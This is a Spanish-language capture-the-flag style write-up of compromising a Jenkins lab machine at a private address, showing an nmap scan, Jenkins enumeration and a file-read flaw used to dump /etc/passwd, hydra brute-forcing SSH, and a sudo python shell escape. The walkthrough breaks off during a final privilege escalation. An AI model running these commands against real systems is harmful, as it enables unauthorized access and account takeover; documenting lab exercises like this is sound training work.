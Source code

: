 Fecha: 07/09/2024

Empiezo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240907190932.png)

Al mirar la página, hay un jenkins así que investigo como obtener información del mismo. Encuentro que puedo usar auxiliary/scanner/http/jenkins_enum

![](imágenes/Pasted%20image%2020240907200354.png)

Tras hacer `exploit`, obtengo la siguiente información: 
![](imágenes/Pasted%20image%2020240907200420.png)


Sobre la versión de jenkins, veo que hay una vulnerabilidad que me permite ver ficheros:
![](imágenes/Pasted%20image%2020240907201244.png)

Uso el script para ver /etc/passwd y veo dos usuarios "bobby" y "pinguinito":
![](imágenes/Pasted%20image%2020240907201641.png)

Usaré hydra para encontrar sus contraseñas, centrándome en "bobby" antes:
```bash
sudo hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 
```

![](imágenes/Pasted%20image%2020240907203026.png)

Me conecto y veo que puedo ejecutar python como si fuera "pinguinito", así que lo usaré para escalar privilegios. 
![](imágenes/Pasted%20image%2020240907203216.png)

```bash
sudo -u pinguinito /usr/bin/python3 -c "import os; os.system('/bin/bash')"
```

Como pinguinito, puedo ejecutar un script en python, así que compruebo mis permisos de escritura sobre el mismo: 
![](imágenes/Pasted%20image%2020240907203335.png)


![](imágenes/Pasted%20image%2020240907203813.png)

No puedo escribir sobre el mismo, pero como soy el propietario cambiaré los permisos para hacerlo y lo editaré para escalar privilegios:

![](imágenes/Pasted%20image%2020240907204002.png)